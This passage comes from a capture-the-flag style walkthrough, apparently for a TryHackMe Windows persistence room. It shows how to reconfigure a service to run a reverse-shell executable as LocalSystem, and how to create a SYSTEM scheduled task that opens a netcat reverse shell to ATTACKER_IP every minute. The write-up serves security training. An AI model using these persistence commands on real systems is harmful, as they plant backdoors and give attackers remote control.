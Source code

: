     * Reconfigure "THMservice3" parameters

        ```
        sc.exe config THMservice3 binPath= "C:\Windows\rev-svc2.exe" start= auto obj= "LocalSystem"
        ```

        ![task4-thmservice](./images/task4-thmservice.png)

    * Restart the service and get the shell

        ![task4-flag8](./images/task4-flag8.png)

## Task 5 - Abusing Scheduled Tasks

We can also use scheduled tasks to establish persistence if needed. There are several ways to schedule the execution of a payload in Windows systems. Let's look at some of them:

### Task Scheduler

The most common way to schedule tasks is using the built-in **Windows task scheduler**. The task scheduler allows for granular control of when your task will start, allowing you to configure tasks that will activate at specific hours, repeat periodically or even trigger when specific system events occur. From the command line, you can use `schtasks` to interact with the task scheduler. A complete reference for the command can be found on [Microsoft's website](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/schtasks).

Let's create a task that runs a reverse shell every single minute. In a real-world scenario, you wouldn't want your payload to run so often, but we don't want to wait too long for this room:
Command Prompt

```
schtasks /create /sc minute /mo 1 /tn THM-TaskBackdoor /tr "c:\tools\nc64 -e cmd.exe ATTACKER_IP 4449" /ru SYSTEM
```
